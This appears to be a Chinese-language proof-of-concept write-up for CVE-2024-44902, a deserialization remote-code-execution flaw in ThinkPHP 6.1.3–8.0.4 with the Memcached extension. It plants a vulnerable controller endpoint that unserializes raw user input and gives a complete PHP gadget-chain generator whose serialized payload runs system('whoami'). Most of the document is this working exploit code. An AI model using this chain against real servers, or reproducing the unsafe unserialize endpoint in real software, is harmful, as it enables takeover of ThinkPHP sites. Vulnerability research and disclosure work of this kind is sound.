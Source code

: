 # CVE-2024-44902

## 漏洞描述
ThinkPHP v6.1.3 - v8.0.4存在一个反序列化漏洞，使得攻击者能够执行任意代码

## 影响版本

Thinkphp v6.1.3 to v8.0.4 

## 利用条件

Thinkphp安装了Memcached扩展

## 漏洞证明

- 测试环境: php8.0.7+thinkphp8.0.4+memcached3.2.0.

首先，在 app\controller\Index.php 中添加新的反序列化端点，例如:

```php
<?php

namespace app\controller;

use app\BaseController;

class Index extends BaseController
{
    public function index()
    {
        unserialize($_GET['x']);
        return '<style>*{ padding: 0; margin: 0; }</style><iframe src="https://www.thinkphp.cn/welcome?version=' . \think\facade\App::version() . '" width="100%" height="100%" frameborder="0" scrolling="auto"></iframe>';
    }

    public function hello($name = 'ThinkPHP8')
    {
        return 'hello,' . $name;
    }
}

```

您可以从以下位置生成有效负载:

```php
<?php
namespace think\cache\driver;
use think\model\Pivot;
class Memcached{
    protected $options=[];
    function __construct()
    {
        $this->options["username"]=new Pivot();
    }
}

namespace think\model;
use think\model;
class Pivot extends Model
{

}

namespace think;
abstract class Model{
    private $data = [];
    private $withAttr = [];
    protected $json = [];
    protected $jsonAssoc = true;
    function __construct()
    {
        $this->data["fru1ts"]=["whoami"];
        $this->withAttr["fru1ts"]=["system"];
        $this->json=["fru1ts"];
    }
}

namespace think\route;
use think\DbManager;
class ResourceRegister
{
    protected $registered = false;
    protected $resource;
    function __construct()
    {
        $this->registered=false;
        $this->resource=new DbManager();
    }
}
namespace think;
use think\model\Pivot;
class DbManager
{
    protected $instance = [];
    protected $config = [];
    function __construct()
    {
        $this->config["connections"]=["getRule"=>["type"=>"\\think\\cache\\driver\\Memcached","username"=>new Pivot()]];
        $this->config["default"]="getRule";
    }
}

use think\route\ResourceRegister;
$r=new ResourceRegister();
echo urlencode(serialize($r));

```

使用 payload 反序列化可以导致 RCE:
![图片](https://github.com/user-attachments/assets/ee5ff49f-0710-4b47-b9de-c949acbd15f0)


# 注明
POC均来自互联网，仅供交流学习使用
